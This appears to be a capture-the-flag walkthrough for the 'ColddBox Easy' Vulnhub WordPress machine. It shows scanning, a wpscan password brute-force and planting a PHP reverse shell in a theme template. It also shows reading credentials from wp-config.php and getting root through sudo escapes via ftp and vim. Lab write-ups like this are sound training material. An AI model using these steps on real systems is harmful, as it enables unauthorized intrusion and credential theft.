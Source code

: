 # ColdBox_Easy_Vulnhub_Machine_Walkthrough
ColddBox Easy, it is a Wordpress machine with an easy level of difficulty, highly recommended for beginners in the field.

## Scanning

nmap 192.168.122.112

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled.png)

nmap -sV -A 192.168.122.112

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%201.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%201.png)

nmap -p- 192.168.122.112

nmap -p4512 -sV -A 192.168.122.112

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%202.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%202.png)

nikto -h http://192.168.122.112/

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%203.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%203.png)

### Enumeration

Browsing http://192.168.122.112

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%204.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%204.png)

Found nothing in [http://192.168.122.112/hidden/](http://192.168.122.112/hidden/) directory

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%205.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%205.png)

wp-scan -u [http://192.168.122.112/](http://192.168.122.112/) -e —wordlist /usr/share/seclists/Passwords/darkweb2017-top1000.txt

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%206.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%206.png)

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%207.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%207.png)

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%208.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%208.png)

Found password for user c0ldd: 9876543210

using credential c0ldd: 9876543210 for login

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%209.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%209.png)

starting listener on 4444

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2010.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2010.png)

open theme twetyfifteen and edit on 404 template

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2011.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2011.png)

Copy-Paste php-reverse-shell.php in editor and save

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2012.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2012.png)

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2013.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2013.png)

Open [http://192.168.122.112/](http://192.168.122.112/)wp-content/themes/twentyfifteen/404.php

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2014.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2014.png)

We got shell of www-data

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2015.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2015.png)

cd /home/c0ldd

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2016.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2016.png)

Found user.txt

cd /var/www/html

cat wp-config.php

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2017.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2017.png)

Found password for c0ldd user which is cybersecurity

Connect through ssh

ssh c0ldd@192.168.122.112 -p 4512

password: cybersecurity

cat user.txt

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2018.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2018.png)

### Privilege escalation

sudo -l

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2019.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2019.png)

FTP sudo /usr/bin/ftp 

!/bin/sh

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2020.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2020.png)

vim

sudo vim -c ':!/bin/bash'

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2021.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2021.png)

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2022.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2022.png)

cat root.txt

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2023.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2023.png)
